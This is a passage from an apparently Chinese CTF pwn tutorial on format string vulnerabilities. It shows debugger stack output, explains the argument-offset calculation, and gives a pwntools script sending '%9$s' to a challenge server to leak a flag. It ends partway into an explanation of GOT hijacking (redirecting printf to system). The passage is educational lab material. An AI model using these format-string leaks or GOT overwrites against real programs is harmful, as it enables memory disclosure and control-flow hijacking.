 ```shell
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────


```

可以看到 flag 对应的栈上的偏移为 5，除去对应的第一行为返回地址外，其偏移为 4。此外，由于这是一个 64 位程序，所以前 6 个参数存在在对应的寄存器中，fmt 字符串存储在 RDI 寄存器中，所以 fmt 字符串对应的地址的偏移为 10。而 fmt 字符串中 `%order$s` 对应的 order 为 fmt 字符串后面的参数的顺序，所以我们只需要输入 `%9$s` 即可得到 flag 的内容。当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb 中的 fmtarg 来判断某个参数的偏移。

```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须 break 在 printf 处。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

## hijack GOT

### 原理

在目前的 C 程序中，libc 中的函数都是通过 GOT 表来跳转的。此外，在没有开启 RELRO 保护的前提下，每个 libc 的函数对应的 GOT 表项是可以被修改的。因此，我们可以修改某个 libc 函数的 GOT 表内容为另一个 libc 函数的地址来实现对程序的控制。比如说我们可以修改 printf 的 got 表项内容为 system 函数的地址。从而，程序在执行 printf 的时候实际执行的是 system 函数。

假设我们将函数 A 的地址覆盖为函数 B 的地址，那么这一攻击技巧可以分为以下步骤

-   确定函数 A 的 GOT 表地址。
